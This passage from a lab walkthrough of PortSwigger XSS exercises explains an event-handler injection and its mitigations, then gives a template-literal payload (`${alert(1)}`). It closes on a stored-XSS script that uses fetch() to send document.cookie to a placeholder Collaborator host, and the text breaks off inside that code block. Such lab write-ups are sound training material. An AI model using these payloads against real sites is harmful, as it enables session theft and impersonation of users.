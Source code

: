 `<button onclick="doSomething('' -alert(1)- '')">Click me</button>`

Now, it looks like this:

- The `onclick` event now contains: `doSomething('' -alert(1)- '')`
- The JavaScript string is broken because the first `&apos;` decodes to a single quote (`'`), ending the string.
- `-alert(1)-` is then treated as JavaScript code, which will execute and show an alert when the button is clicked.

### Mitigation
1. **Proper Input Validation**: Validate and sanitize inputs on the server side, ensuring no harmful scripts can be executed.
2. **Output Encoding**: Encode user input appropriately based on the context where it's used. For event handler attributes, this means ensuring that input can't break out of the JavaScript context.
3. **Use Safe Methods**: Avoid inserting user input directly into inline event handlers. Instead, use event listeners added through JavaScript code.

## **18. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped**

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.

1. Submit a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Observe that the random string has been reflected inside a JavaScript template string.
3. Replace your input with the following payload to execute JavaScript inside the template string: `${alert(1)}`
4. Verify the technique worked by right clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.

## **19. Exploiting cross-site scripting to steal cookies**
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    
    ```
    <script>
     
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie });
    